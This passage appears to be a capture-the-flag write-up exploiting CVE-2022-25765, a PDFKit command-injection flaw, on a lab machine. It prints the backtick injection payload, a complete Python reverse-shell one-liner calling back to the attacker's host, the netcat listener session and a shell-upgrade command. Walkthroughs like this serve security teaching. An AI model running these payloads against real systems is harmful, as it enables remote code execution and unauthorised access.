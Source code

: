 So next, I tried to understand how to exploit the vulnerability and it was fairly simple. According to the CVE, `an application could be vulnerable if it tries to render a URL that contains query string parameters with user input` and `if the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF`. This has got to be our way in!

So, basically, we can use any `get` parameter name and inside that use the `backticks` to inject our command.

So, I started with basic `id` command to see it the web-site is actually vulnerable to 
 
```
http://IP/?name=%20`id`
```

![pr-4](https://user-images.githubusercontent.com/87711310/215252849-3fbec9e7-22a3-4ee8-864a-1c566bd6eb01.png)

And, this is the result I got after viewing the file

![pr-5](https://user-images.githubusercontent.com/87711310/215252848-aca8ab08-6e13-49ce-8fb2-9f91e1e40ec0.png)

Now, that I know this web-site is also vulnerable to `CVE-2022–25765`, I used a simple python reverse shell to get a reverse shell on my mahcine

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

So, the final payload to get a reverse shell was:
```python
http://Machine IP:port/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Before sending the request, I turned on my `netcat` listener to receive the incomign request, and once I hit send on the website, I immediately got back a reverse shell.

```
┌──(darshan㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.189] 46240
$ whoami
whoami
ruby
...
```

Then, I upgraded the shell to an interactive shell using the following command: 
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
sh: 2: python: not found
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
ruby@precious:/var/www/pdfapp$ 
```
